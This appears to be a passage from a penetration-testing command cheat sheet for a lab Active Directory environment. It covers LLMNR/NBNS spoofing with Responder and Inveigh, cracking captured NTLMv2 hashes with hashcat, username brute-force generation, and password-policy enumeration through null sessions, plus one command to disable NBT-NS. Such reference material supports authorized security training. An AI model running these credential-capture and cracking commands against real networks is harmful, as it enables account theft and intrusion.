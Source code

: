 `responder -h`

> Used to display the usage instructions and various options available in `Responder` from a Linux-based host.

`hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt`

> Uses `hashcat` to crack `NTLMv2` (`-m`) hashes that were captured by responder and saved in a file (`frond_ntlmv2`). The cracking is done based on a specified wordlist.

`Import-Module .\Inveigh.ps1`

> Using the `Import-Module` PowerShell cmd-let to import the Windows-based tool `Inveigh.ps1`.

`(Get-Command Invoke-Inveigh).Parameters`

> Used to output many of the options & functionality available with `Invoke-Inveigh`. Peformed from a Windows-based host.

`Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y`

> Starts `Inveigh` on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file.

`.\Inveigh.exe`

> Starts the `C#` implementation of `Inveigh` from a Windows-based host.

`$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}`

> PowerShell script used to disable NBT-NS on a Windows host.

**Password Spraying & Password Policies**

`#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done`

> Bash script used to generate `16,079,616` possible username combinations from a Linux-based host.

`crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol`

> Uses `CrackMapExec`and valid credentials (`avazquez:Password123`) to enumerate the password policy (`--pass-pol`) from a Linux-based host.

`rpcclient -U "" -N 172.16.5.5`

> Uses `rpcclient` to discover information about the domain through `SMB NULL` sessions. Performed from a Linux-based host.

`rpcclient $> querydominfo`

> Uses `rpcclient` to enumerate the password policy in a target Windows domain from a Linux-based host.

`enum4linux -P 172.16.5.5`

> Uses `enum4linux` to enumerate the password policy (`-P`) in a target Windows domain from a Linux-based host.

`enum4linux-ng -P 172.16.5.5 -oA ilfreight`
